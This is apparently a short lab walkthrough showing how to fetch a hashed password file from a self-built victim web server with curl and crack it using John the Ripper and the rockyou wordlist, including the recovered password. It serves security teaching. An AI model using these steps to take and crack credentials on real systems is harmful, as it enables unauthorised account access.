

This experiment demonstrates how password cracking is performed using John the Ripper on a hashed password file.
VSecureSphereVSecureSphereWe will simulate a password cracking attack by first obtaining the hashed password from the victim's system.
On the victim's machine, open the terminal and run:
cat /var/www/html/hash.txtThis command will display the UNIX-style hashed password:
shivani:$6$kF5z...$P69vEaq98Agjhniucn3ifdh/...Run the following command to confirm that Apache is running and serving the hash file:
curl http://localhost/hash.txtIf you see the hash, it's working ✅
(Optional): You can also open http:// from your browser to access the hash file.
On the attacker's machine, run the following command to fetch the hash:
curl http://{victim`s IP}:80/hash.txt -o hash.txtOr, if exposed via NodePort, use the full Minikube IP:
curl http://{victim`s IP}:/hash.txt -o hash.txt After fetching the hash, you can view the contents by running:
cat hash.txtNow, use John the Ripper to crack the password. You will use the rockyou wordlist:
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txtYou'll see output like this:
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX512BW 16x])
Press 'q' or Ctrl-C to abort, almost any other key for status
password123 (shivani)🎉 The password has been cracked!
To view the cracked password, run:
john --show hash.txtOutput:
shivani:password123